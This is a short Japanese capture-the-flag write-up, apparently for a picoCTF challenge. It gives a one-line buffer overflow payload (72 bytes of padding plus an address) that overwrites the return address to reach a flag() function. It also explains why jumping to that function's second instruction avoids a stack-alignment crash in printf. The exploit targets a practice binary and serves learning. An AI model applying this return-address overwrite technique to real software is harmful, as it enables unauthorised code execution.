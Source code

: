 ```
echo -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaah\x07@\x00\x00\x00\x00\x00' | ./vuln
```

バッファオーバーフローがあるため、長い文字列を入力すればRIPを奪える。
flag()関数が用意されているので、gdbでp flagでアドレスを調べて 'a' * 72　+ p64(flag()のアドレス)でいける、と思いきや、、。
ローカルでは通るがpicoの環境では通らない。
どうやらprintf()内の命令で、rspの値が壊れているとセグフォで落ちる部分があるらしい。
こういう時はflag()の2命令目とか3命令目くらいに飛ばすというテクがあったなと思って2命令目に飛ばしたらフラグが出た。